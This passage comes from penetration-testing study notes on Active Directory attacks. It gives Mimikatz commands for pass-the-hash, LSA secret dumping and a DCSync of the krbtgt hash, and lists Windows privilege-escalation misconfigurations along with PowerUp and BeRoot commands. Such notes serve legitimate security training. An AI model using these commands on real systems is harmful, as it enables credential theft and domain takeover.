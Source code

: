 ```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:0xd4y /domain:follow.0xd4y_notes.local /ntlm:<NTLM_HASH> /run:powershell.exe"'
```

- after running this, `whoami` will not show that you are the impersonated user, but you are and have the permissions of that user

Another Method for Running Mimikatz on Remote Machine

1. `$session = New-PSSession -ComputerName follow-dc.0xd4y_notes.local`
2. `Invoke-Command -Session $session -FilePath <PATH_TO_PS1_FILE>`
3. `Enter-PSSession -Session $session`
4. `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
- you can also extract the krbtgt hash by using DCSync: `Invoke-Mimikatz -Command '"lsadump::dcsync /user:vuln_corp\krbtgt"'`
    - this avoids running Mimikatz on the remote machine

## Local Privilege Escalation

### Common Misconfigurations

- missing patches
- passwords in clear text
- `AlwaysInstallElevated` turned on (see [https://0xd4y.com/reports/Love Writeup.pdf](https://0xd4y.com/reports/Love%20Writeup.pdf) for how to exploit)
- misconfigured services (unquoted service path, permission of service is misconfigured, overwrite .exe binary, etc.)
    - `Get-ServiceUnquoted`
    - `Get-ModifiableServiceFile`
    - `Get-ModifiableService`
    - `Get-WMIObject Win32_service | select Name, PathName`
    - `Invoke-ServiceAbuse`
        - abuse discovered misconfigured service
        - Use the following as it is the least noisy (though still noisy): `Invoke-ServiceAbuse -Name <VULNERABLE_SERVICE> -Command "<COMMAND>"`
    - `Invoke-AllChecks`
        - scan for common misconfigurations that can result in privesc
- DLL hijacking
- AutoLogon enabled → password stored in clear text or easily decryptable (found in registry)

### Checks

- PowerUp (`Invoke-AllChecks`)
    - in the case of an unquoted service, check if `CanRestart` is `True` and it is being run with higher privileges than your current user (`StartName`)
        - otherwise, need to wait for server to reboot or other user to restart it
        - service is not vulnerable if you need to drop a binary in the root (`C:\`); Admin privs needed for that
- BeRoot (`.\beRoot.exe`)
- Privesc (`Invoke-PrivEsc`)

# Defense
